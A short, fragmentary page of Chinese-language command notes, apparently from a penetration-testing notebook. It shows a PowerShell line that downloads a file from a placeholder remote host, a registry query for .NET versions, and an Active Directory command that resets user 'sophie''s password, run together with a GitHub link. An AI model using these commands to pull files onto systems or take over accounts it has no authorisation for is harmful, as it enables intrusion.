 Powershell下载
```
Invoke-WebRequest "[IP:PORT]" | Select-Object -ExpandProperty Content | Out-File "[FILE NAME]"
```
检查.NET Framework版本
```
reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s
```
hello Set-ADAccountPassword sophie -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbosehttps://github.com/Restonweb/ObsidianStorge.git